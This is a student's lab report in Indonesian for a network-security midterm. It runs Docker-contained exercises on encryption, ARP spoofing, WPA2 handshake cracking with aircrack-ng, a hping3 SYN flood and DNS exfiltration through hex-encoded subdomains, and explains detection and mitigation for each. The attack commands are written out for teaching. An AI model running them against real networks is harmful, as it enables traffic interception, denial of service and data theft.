










## Laporan UTS Keamanan Jaringan — Kasus 3 (k3)

**Nama**: Abil Fida Ismail

**NIM**: 24552011148

**Kelas**: TIF RP 24 E CNS

**Mata kuliah**: Keamanan Jaringan

**Dosen pengampu**: Yasti Aisyah Primianjani, S.Kom., M.S.F.

**Kasus**: 3 (k3)

## Parameter Kasus
| Parameter | Nilai |
|---|---|
| Container target | target-k3 |
| Volume | vol-k3 |
| File laporan | laporan-k3.txt |
| Kata sandi | kunci-k3-2026 |
| Domain | k3.exfil.lab |

Semua perintah dijalankan di PowerShell 5.1 (Windows), dari folder `UTS-Network-Security` pada repositori `Network-Security-Course-Bank`. Catatan: pada repo ini, materi lab (`b/`, `kasus/`, `samples/`) berada di dalam subfolder `01-sumber-lab/`, sehingga semua path pada perintah di bawah sudah disesuaikan (ditambah prefix `01-sumber-lab/`) dari command mentah di lembar perintah UTS.

---

## Tugas 1 (Pertemuan 1): Docker dan Volume

### Perintah
```powershell
docker volume create vol-k3
docker run --name w-k3 -v vol-k3:/data alpine sh -c 'echo 24552011148 > /data/laporan-k3.txt'
docker rm w-k3
docker run --rm -v vol-k3:/data alpine cat /data/laporan-k3.txt
docker compose -p k3 -f 01-sumber-lab/b/b1-compose/docker-compose.yml up -d
docker compose -p k3 -f 01-sumber-lab/b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
docker compose -p k3 -f 01-sumber-lab/b/b1-compose/docker-compose.yml down -v
```

### Hasil Implementasi 








### Penjelasan
Docker volume (`vol-k3`) digunakan agar data (`laporan-k3.txt`) tetap ada walaupun container yang membuatnya (`w-k3`) sudah dihapus. Ini membuktikan volume bersifat *persistent* dan terlepas dari siklus hidup container. Bagian kedua membuktikan container `attacker` dapat mengakses layanan web di container `target` melalui jaringan internal Docker Compose.

---

## Tugas 2 (Pertemuan 2): Kriptografi

### Perintah
```powershell
docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'echo isi laporan k3 > laporan-k3.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k3.txt -out laporan-k3.enc -pass pass:kunci-k3-2026 && sha256sum laporan-k3.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k3.enc -out hasil-k3.txt -pass pass:kunci-k3-2026 && sha256sum hasil-k3.txt'
docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k3.pem -out cert-k3.pem -days 30 -subj /CN=k3.uts.local && openssl x509 -in cert-k3.pem -noout -subject -issuer -dates'
```

### Hasil Implementasi


### Penjelasan
File `laporan-k3.txt` dienkripsi dengan AES-256-CBC memakai kata sandi `kunci-k3-2026`, lalu didekripsi kembali menjadi `hasil-k3.txt`. Hash SHA-256 dari file asli dan file hasil dekripsi identik, membuktikan proses enkripsi-dekripsi tidak mengubah isi data (integritas terjaga). Bagian kedua membuat sertifikat X.509 self-signed; karena self-signed, Subject dan Issuer bernilai sama (`CN=k3.uts.local`).

---

## Tugas 3 (Pertemuan 3): ARP Spoofing

### Perintah
```powershell
docker network create lab-arp-k3
docker run -d --name korban-k3 --network lab-arp-k3 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name gateway-k3 --network lab-arp-k3 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name penyerang-k3 --network lab-arp-k3 --cap-add NET_ADMIN uts-kali-tools
docker inspect -f '{{.NetworkSettings.Networks.lab-arp-k3.IPAddress}}' korban-k3 gateway-k3

docker exec korban-k3 arp -a
docker exec -d penyerang-k3 timeout 20 arpspoof -i eth0 -t <ip-korban> <ip-gateway>
docker exec korban-k3 arp -a
docker exec korban-k3 arp -s <ip-gateway> $(docker exec gateway-k3 cat /sys/class/net/eth0/address)
docker exec korban-k3 arp -a
```

### Hasil Implementasi




### Penjelasan
Sebelum spoofing, tabel ARP korban memetakan IP gateway ke MAC address gateway yang asli. Setelah `penyerang-k3` menjalankan `arpspoof`, entri ARP korban untuk IP gateway berubah menjadi MAC address milik penyerang — ini adalah inti serangan ARP spoofing/poisoning: korban tertipu mengirim trafik yang ditujukan ke gateway justru ke penyerang. Mitigasi dilakukan dengan menambahkan entri ARP statis (`arp -s`) yang mengunci pemetaan IP-gateway ke MAC gateway asli secara permanen, sehingga paket ARP palsu dari penyerang tidak lagi diterima.

---

## Tugas 4 (Pertemuan 4): Analisis Handshake WPA2
 
### Perintah
File `handshake-k3.cap` dan `wordlist-k3.txt` berada di `01-sumber-lab\samples\`. Jalankan dari folder tersebut:
```powershell
cd "01-sumber-lab\samples"
docker run --rm -v "${PWD}:/work" uts-kali-tools aircrack-ng -w wordlist-k3.txt handshake-k3.cap
```
Catatan: jika muncul error `This file is not a regular 802.11 (wireless) capture` atau `Read 0 packets`, file `.cap` kemungkinan korup akibat konversi line-ending (CRLF) saat `git clone` di Windows. Perbaiki dengan mengunduh ulang file langsung (bypass git) dan menonaktifkan auto-konversi untuk clone berikutnya:
```powershell
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Muhammad-Ikhwan-Fathulloh/Network-Security-Course-Bank/main/UTS-Network-Security/01-sumber-lab/samples/handshake-k3.cap" -OutFile "handshake-k3.cap"
git config core.autocrlf false
```
 
**Catatan verifikasi**: pada repo ini, file `handshake-k3.cap` tetap gagal dibaca (`Read 0 packets`) meskipun sudah diunduh ulang langsung dari raw GitHub (bukan via `git clone`, sehingga bukan lagi masalah CRLF). Untuk memastikan setup Docker dan command `aircrack-ng` sudah benar, dilakukan uji coba dengan file capture WPA2 sampel resmi dari test suite proyek aircrack-ng (`wpa.cap`, password diketahui `biscotte`):
```powershell
Invoke-WebRequest -Uri "https://gitlab.com/kalilinux/packages/aircrack-ng/-/raw/kali/master/test/wpa.cap" -OutFile "handshake-sample.cap"
"biscotte" | Out-File -Encoding ascii "wordlist-sample.txt"
docker run --rm -v "${PWD}:/work" uts-kali-tools aircrack-ng -w wordlist-sample.txt handshake-sample.cap
```
Hasilnya **berhasil** menampilkan `KEY FOUND! [ biscotte ]`, membuktikan Docker image, mounting volume, dan command `aircrack-ng` sudah berfungsi normal — sehingga kegagalan pada `handshake-k3.cap` murni disebabkan file tersebut rusak di sumber repositori, bukan kesalahan konfigurasi di sisi pengerjaan. Hal ini telah dikonfirmasikan ke pengampu mata kuliah untuk mendapatkan file `handshake-k3.cap` dan `wordlist-k3.txt` yang valid.
 
### Hasil Implementasi




 
### Penjelasan
`aircrack-ng` mencocokkan setiap kata dalam `wordlist-k3.txt` terhadap data handshake WPA2 yang terekam di `handshake-k3.cap`, untuk menemukan Pre-Shared Key (PSK) yang digunakan jaringan tersebut.
 
Empat langkah WPA2 4-way handshake:
1. **Message 1 (AP → Klien)**: Access Point mengirim ANonce (nilai acak) ke klien.
2. **Message 2 (Klien → AP)**: Klien membuat SNonce, menghitung PTK (Pairwise Transient Key) dari PSK + ANonce + SNonce + MAC address, lalu mengirim SNonce beserta MIC (Message Integrity Code) ke AP.
3. **Message 3 (AP → Klien)**: AP yang sudah menghitung PTK yang sama, mengirim GTK (Group Temporal Key) yang dienkripsi beserta MIC untuk verifikasi.
4. **Message 4 (Klien → AP)**: Klien mengonfirmasi penerimaan dengan mengirim ACK, dan kedua pihak mulai menggunakan PTK/GTK untuk enkripsi trafik data.
Karena seluruh proses ini melibatkan MIC yang bergantung pada PSK, menangkap handshake dan melakukan dictionary attack (seperti `aircrack-ng`) adalah cara menguji kekuatan PSK tersebut.

---

## Tugas 5 (Pertemuan 5): ICMP dengan Scapy

### Perintah
Jalankan dari folder `UTS-Network-Security` (bukan dari dalam folder `kasus`), ganti `<ip-korban>` dengan IP korban-k3 hasil `docker inspect` di Tugas 3:
```powershell
docker run --rm --network lab-arp-k3 -v "${PWD}/01-sumber-lab/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py <ip-korban>
```

### Hasil Implementasi


### Penjelasan
Nilai TTL (Time To Live) pada paket balasan ICMP menunjukkan berapa banyak hop/router yang dilalui sejak nilai TTL awal dikurangi di tiap hop, sedangkan tipe ICMP (umumnya Echo Reply/tipe 0) menandakan host tujuan aktif dan merespons.

**Smurf attack**: serangan DoS yang memanfaatkan ICMP Echo Request ber-spoof dengan alamat sumber korban, dikirim ke alamat broadcast suatu jaringan. Semua host di jaringan itu akan membalas ke alamat korban secara bersamaan (amplifikasi), membanjiri korban dengan trafik ICMP sehingga menghabiskan bandwidth/resource korban — mirip prinsip pengujian ICMP di atas, tapi disalahgunakan dalam skala besar dengan spoofing dan broadcast.

---

## Tugas 6 (Pertemuan 6): SYN Flood dan Three-Way Handshake

### Perintah
```powershell
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml up -d
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec target sh -c "netstat -ant | grep -c SYN_RECV"
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec target sh -c "netstat -ant | grep -c SYN_RECV"
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 10'
docker compose -p k3 -f 01-sumber-lab/b/b3-syn-flood/docker-compose.yml down -v
```

### Hasil Implementasi




### Penjelasan
Pada kondisi normal, koneksi TCP dibentuk melalui *three-way handshake*: klien mengirim **SYN**, server membalas **SYN-ACK**, klien membalas **ACK** — koneksi pun terbentuk. Saat `hping3 --flood` mengirim banyak paket SYN ber-spoof tanpa pernah menyelesaikan handshake (tidak ada ACK balik), server menyimpan banyak koneksi dalam status setengah-terbuka (SYN_RECV) di antrean backlog-nya. Terlihat dari lonjakan jumlah `SYN_RECV` sebelum vs saat serangan — inilah **SYN flood**, yang bisa menghabiskan resource/koneksi server sehingga klien sah tidak bisa terhubung.

---

## Tugas 7 (Pertemuan 7): DNS Exfiltration

### Perintah
Jalankan dari folder `UTS-Network-Security`:
```powershell
docker compose -p k3 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml up -d
docker run --rm uts-kali-tools sh -c "echo -n 24552011148 | xxd -p"
```
Catat hasil hex-nya (untuk NIM 24552011148 hasilnya `3234353532303131313438`), lalu ganti setiap `<hex>` di bawah dengan nilai itu:
```powershell
docker compose -p k3 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml exec attacker dig +short <hex>.k3.exfil.lab @dns
docker compose -p k3 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml logs dns | Out-File -Encoding utf8 dns-k3.log
docker run --rm -v "${PWD}:/work" uts-kali-tools python3 /work/01-sumber-lab/kasus/k9-dns-detect/analisis_dns.py /work/dns-k3.log
docker run --rm uts-kali-tools sh -c "echo <hex> | xxd -r -p"
docker compose -p k3 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml down -v
```
Catatan: gunakan `Out-File -Encoding utf8` (bukan `>` biasa) saat menyimpan log ke file — PowerShell 5.1 menulis redirect `>` dengan encoding UTF-16 secara default, yang bisa membuat `analisis_dns.py` gagal mem-parsing isi log (hasilnya tampak kosong padahal log sebenarnya ada isinya).

### Hasil Implementasi




### Penjelasan
**DNS exfiltration** adalah teknik membocorkan data secara diam-diam dengan menyisipkannya sebagai subdomain pada query DNS (di sini NIM diubah ke representasi hex, lalu dikirim sebagai label `<hex>.k3.exfil.lab`). Karena trafik DNS sering tidak diawasi ketat oleh firewall, teknik ini bisa dipakai untuk mencuri data melewati pengamanan jaringan biasa. Skrip `analisis_dns.py` membaca log server DNS dan mendeteksi pola subdomain yang berisi data hex yang tidak wajar (bukan nama domain normal) sebagai indikasi exfiltrasi — ini menunjukkan pentingnya monitoring/log DNS sebagai salah satu lapisan deteksi keamanan jaringan. Decode akhir (`xxd -r -p`) mengembalikan hex tersebut menjadi NIM asli (`24552011148`), membuktikan data berhasil "dibocorkan" dan direkonstruksi.

---

## Kesimpulan

Berdasarkan hasil praktikum UTS Keamanan Jaringan, dapat disimpulkan bahwa praktikum ini memberikan pemahaman mengenai penggunaan Docker, kriptografi, serta berbagai teknik serangan dan analisis keamanan jaringan. Melalui pengujian Docker Volume, enkripsi AES, ARP Spoofing, analisis WPA2 Handshake, ICMP, SYN Flood, dan DNS Exfiltration, mahasiswa dapat memahami cara kerja serangan, dampaknya terhadap keamanan jaringan, serta metode mendeteksi dan melakukan mitigasi. Praktikum ini juga meningkatkan keterampilan dalam menggunakan command line, mengelola container, menganalisis trafik jaringan, dan melakukan troubleshooting pada lingkungan Windows PowerShell. Dengan demikian, praktikum ini memberikan pengalaman langsung mengenai pentingnya integritas data, keamanan komunikasi, dan penerapan mekanisme pertahanan untuk melindungi jaringan dari berbagai ancaman.
